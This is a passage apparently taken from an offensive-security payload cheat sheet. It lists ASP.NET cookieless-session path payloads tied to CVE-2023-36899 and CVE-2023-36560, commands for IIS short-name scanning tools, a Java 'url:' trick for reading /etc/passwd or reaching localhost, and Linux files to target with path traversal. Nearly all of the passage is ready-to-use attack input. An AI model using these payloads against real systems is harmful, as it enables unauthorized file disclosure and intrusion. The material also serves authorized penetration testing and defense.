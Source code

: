 * If your application is in a subfolder

    ```ps1
    /MyApp/(S(X))/
    /admin/(S(X))/main.aspx
    /admin/Foobar/(S(X))/../(S(X))/main.aspx
    ```

| CVE            | Payload                                        |
| -------------- | ---------------------------------------------- |
| CVE-2023-36899 | /WebForm/(S(X))/prot/(S(X))ected/target1.aspx  |
| -              | /WebForm/(S(X))/b/(S(X))in/target2.aspx        |
| CVE-2023-36560 | /WebForm/pro/(S(X))tected/target1.aspx/(S(X))/ |
| -              | /WebForm/b/(S(X))in/target2.aspx/(S(X))/       |

### IIS Short Name

The IIS Short Name vulnerability exploits a quirk in Microsoft's Internet Information Services (IIS) web server that allows attackers to determine the existence of files or directories with names longer than the 8.3 format (also known as short file names) on a web server.

* [irsdl/IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner)

    ```ps1
    java -jar ./iis_shortname_scanner.jar 20 8 'https://X.X.X.X/bin::$INDEX_ALLOCATION/'
    java -jar ./iis_shortname_scanner.jar 20 8 'https://X.X.X.X/MyApp/bin::$INDEX_ALLOCATION/'
    ```

* [bitquark/shortscan](https://github.com/bitquark/shortscan)

    ```ps1
    shortscan http://example.org/
    ```

### Java URL Protocol

Java's URL protocol when `new URL('')` is used allows the format `url:URL`

```powershell
url:file:///etc/passwd
url:http://127.0.0.1:8080
```

## Path Traversal

### Linux Files

* Operating System and Informations

    ```powershell
    /etc/issue
    /etc/group
    /etc/hosts
    /etc/motd
    ```
